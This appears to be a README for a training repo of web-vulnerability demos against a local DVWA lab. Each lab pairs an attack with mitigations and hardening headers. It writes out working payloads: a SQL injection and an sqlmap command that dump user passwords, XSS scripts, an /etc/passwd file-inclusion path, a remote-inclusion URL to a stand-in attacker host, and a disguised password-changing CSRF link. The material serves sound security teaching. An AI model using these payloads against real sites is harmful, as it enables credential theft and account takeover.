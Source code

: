 # Web-App Security 

## What this repo contains

Small, hands-on demos for learning and testing common web vulnerabilities on **DVWA (low)** in a local lab.

### Labs

1. **SQL Injection** — extract DB data via injectable parameters.

   * Quick payload: `1 UNION SELECT user,password FROM users#`
   * Quick command (sqlmap):

     ```bash
     sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sql/?id=18&Submit=Submit" \
       --cookie="PHPSESSID=<id>; security=low" -p id --batch --dump -T users -C user,password
     ```
   * Mitigation: parameterized queries (prepared statements), input validation, least-privilege DB user.

2. **Cross-Site Scripting (XSS)** — run attacker JS in victims’ browsers.

   * Stored payload: `<body onload=alert('test')>`
   * Reflected payload: `<script>alert("XSS Found");</script>`
   * Mitigation: contextual output encoding (e.g., `htmlspecialchars()`), CSP, auto-escaping templates.

3. **File Inclusion (LFI / RFI)** — read local files or include remote code.

   * LFI example: `?page=../../../../../../etc/passwd`
   * RFI example: `?page=http://attacker/csrf.html`
   * Mitigation: whitelist includes, `realpath()` checks, `allow_url_include=Off`, `open_basedir`, least privilege.

4. **Web Security Headers** — add headers to harden browsers.

   * Core headers to add in Apache:

     ```apache
     Header always set X-Frame-Options "SAMEORIGIN"
     Header set X-Content-Type-Options "nosniff"
     Header set Referrer-Policy "strict-origin-when-cross-origin"
     Header set Content-Security-Policy "default-src 'self'; script-src 'self'; object-src 'none'"
     Header set Permissions-Policy "geolocation=(), microphone=(), camera=()"
     ```
   * For TLS: `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload`
   * Verify with: `curl -I http://127.0.0.1/dvwa`

5. **CSRF (Cross-Site Request Forgery)** — force authenticated actions via crafted links.

   * Example attacker link (changes password):

     ```html
     <a href="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#">Movie 720p</a>
     ```
   * Mitigation: synchronizer CSRF tokens, `SameSite` cookies, require POST for state changes, Origin/Referer checks.

---



